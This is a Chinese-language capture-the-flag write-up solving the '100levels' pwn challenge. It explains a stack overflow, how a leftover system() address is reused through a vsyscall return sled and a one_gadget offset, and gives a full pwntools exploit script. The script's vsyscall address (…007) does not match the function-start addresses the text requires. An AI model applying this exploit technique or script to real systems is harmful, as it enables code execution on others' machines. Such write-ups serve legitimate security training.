# 100levels WP

拿到题目先看防护机制  

    

发现开了PIE，这是最让人头痛的防护机制，这就意味着我们需要想办法获得一个libc中的函数的地址才行。接着分析程序逻辑   

  

程序有两个主要模块，一个游戏模块，一个提示模块。游戏模块是进行两次输入，然后将两次的值相加，得出你需要进行的游戏关卡数，同时这个关卡数最大不超过100。hint模块则是判断hint_flag这个全局变量，为1则输出system函数的运行时地址。但是hint_flag始终为0，所以可以考虑修改这个值来获得system函数地址。   

    

    

    

分析游戏模块，可以很明显地看到有一个栈溢出的点   

    

但是苦于PIE，而且游戏一旦开始，无论输赢最后都会结束进程，完全想不到任何对栈攻击的方法，所以只能将希望寄托于hint模块，先想办法获取system函数的地址。因为hint_flag是在堆上，又没有想到什么针对堆的输入，所以放弃这里。    

接下来就是很关键的一点了，这里的漏洞不分析汇编代码是看不出来的。   

    

通过分析hint模块，我们发现无论hint_flag的值为多少，system函数的地址都会被存放在栈上rbp+110的地方上，就是说栈上是有system函数的地址的。这就很好了，就是说通过栈我们有办法获得需要的东西，不再是像前面那样毫无想法了。   

然后我们再返回去看game模块

    

然后我们回忆下程序的调用流程，我们完全可以这样调用：menu->call hint()->ret menu->call game()     

这样一来，game与hint的栈帧将一样，也就是说，game模块的rbp+110偏移处的值将会是hint模块的rbp+110偏移处的值。也就是说，system函数的地址将被固定在game模块的栈中！！这就很好了，因为虽然hint模块没有再次调用函数，也就是没有办法通过栈溢出ret到system函数的位置，但是game模块调用了play()函数，而且play函数中有栈溢出的漏洞可以利用 。    

然后接下来的问题就变成了怎么利用这个栈上的system函数地址。这里可以想到系统滑板。      

先把这个栈上的大概内容整理一下   

     

初步的想法是直接返回到system函数处，但是这个system函数并不在play函数的ret处，所以需要借助一个滑板滑到sys_addr处。这里就可以用到vsyscall()来充当这个滑板。   

现代的Windows/*Unix操作系统都采用了分级保护的方式，内核代码位于R0，用户代码位于R3。许多对硬件和内核等的操作都会被包装成内核函数并提供一个接口给用户层代码调用，这个接口就是我们熟知的int 0x80/syscall+调用号模式。当我们每次调用这个接口时，为了保证数据的隔离，我们需要把当前的上下文(寄存器状态等)保存好，然后切换到内核态运行内核函数，然后将内核函数返回的结果放置到对应的寄存器和内存中，再恢复上下文，切换到用户模式。这一过程需要耗费一定的性能。对于某些系统调用，如gettimeofday来说，由于他们经常被调用，如果每次被调用都要这么来回折腾一遍，开销就会变成一个累赘。因此系统把几个常用的无参内核调用从内核中映射到用户空间中，这就是vsyscall。     

vsyscall的地址并不受PIE的影响，始终在0xffffffffff600000-0xffffffffff601000处，而且总共有三个，从低地址到高地址分别是gettimeofday, time和getcpu。     

   

但是需要注意的是，vsyscall执行时会进行检查，如果不是从函数开头执行的话就会出错。因此，我们唯一的选择就是利用0xffffffffff600000, 0xffffffffff600400, 0xffffffffff600800这三个地址。因为这三个位置是死的，所以我们就用这三个来做滑板，滑到sysaddr那里。     

分析栈布局，构造我们的exp。     

   

   

   

这里需要注意，我们这样相当于会把sys_addr和第二次输入的值相加得到最终的关卡数，上限是100。所以我们后面还要完成99次的答题，然后在最后一次实现栈溢出。但是还有一点就是，这里我们只有system的地址，还没有放好参数。但是想要放好参数有需要直到程序的加载地址，以构造ROP链。所以我们干脆不调用system函数，直接调用libc中的one_gadget。所以还需要计算system函数的地址和one_gadget的地址之差，然后令其加和。      

    

最后写出exp      

```python
from pwn import *

context.log_level = True

p = process('./100levels')
#p = remote('111.198.29.45', 53167)
elf = ELF('./100levels')

one_gadget = 0x45216
sys_addr = 0x45390
offset = one_gadget - sys_addr
vsys_addr = 0xffffffffff600007

def hint():
    print p.recvuntil("Choice:\n")
    p.sendline('2')
    print p.recvuntil('NO PWN NO FUN\n')

def play():
    print p.recvuntil('Question: ')
    a = p.recvuntil(' ')
    a = a[:-1]
    a = int(a, 10)
    print p.recvuntil('* ')
    b = p.recvuntil(' ')
    b = b[:-1]
    b = int(b, 10)
    print p.recvuntil('Answer:')
    p.sendline(str(a * b))
    
def boom():
    payload = 'a' * 0x30 + 'a' * 8 + p64(vsys_addr) * 3
    print p.recvuntil('Answer:')
    p.send(payload)

def game():
    print p.recvuntil("Choice:\n")
    p.sendline('1')
    print p.recvuntil('How many levels?\n')
    p.sendline('-1')
    print p.recvuntil('Any more?\n')
    p.sendline(str(offset))
    print p.recvuntil("Let's go!'\n")
    for i in range(99):
        play()
    boom()
    p.interactive()

if __name__ == "__main__":
    hint()
    game()
```

